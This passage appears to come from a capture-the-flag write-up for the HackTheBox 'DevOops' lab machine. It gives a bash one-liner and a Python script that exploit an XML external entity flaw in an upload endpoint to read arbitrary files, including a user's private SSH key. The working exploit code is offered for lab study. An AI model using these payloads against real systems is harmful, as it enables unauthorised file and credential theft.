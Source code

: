 ```

root@kali# file=/etc/lsb-release
root@kali# new=/home/roosa/.ssh/id_rsa; sed -i -e "s|${file}|${new}|g" upload.xml; file=$(echo -n $new); curl -s -X POST -F "file=@upload.xml;filename=upload.xml" http://10.10.10.91:5000/upload -x 127.0.0.1:8080 | grep -zo "Author:.*Subject" | strings | grep -v -e "Author:" -e "Subject" |  tee loot/$(echo $file | rev | cut -d'/' -f1 | rev)

```

It does the following:
1. Start with `file` as existing file read in the xxe file.
2. At the start of the line, set the new file you want to get.
3. It then replaces the old file with the new file in `upload.xml`
4. post the file and grep out the file contents from the response
5. `tee` the output to the filename in the `loot/` path

### Better Automation: Python Script

In writing this post today, I decided that oneliner was too crude, and I needed a quick python script. Here’s `devoops_get.py`:

```

#!/usr/bin/python3

import re
import requests
import sys

if len(sys.argv) < 2:
    print(f"usage: {sys.argv[0]} [path to file]")
    sys.exit()

file_name = sys.argv[1]

xml = f'''<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM "file://{file_name}">
]>

<item>
<Author>
&bar;
</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>'''

files = {'file': ('xxe.xml', xml, 'text/xml')}
proxies = {'http': 'http://127.0.0.1:8080'}
try:
    r = requests.post('http://10.10.10.91:5000/upload', files=files, proxies=proxies)
    if r.status_code == 200:
        pattern = re.compile(r"Author: \n(.*)\n Subject:", flags=re.DOTALL)
        print(re.search(pattern, r.text).group(1).strip())
        sys.exit()
    else:
        pass
except requests.exceptions.ConnectionError:
    pass
print("[-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.")

```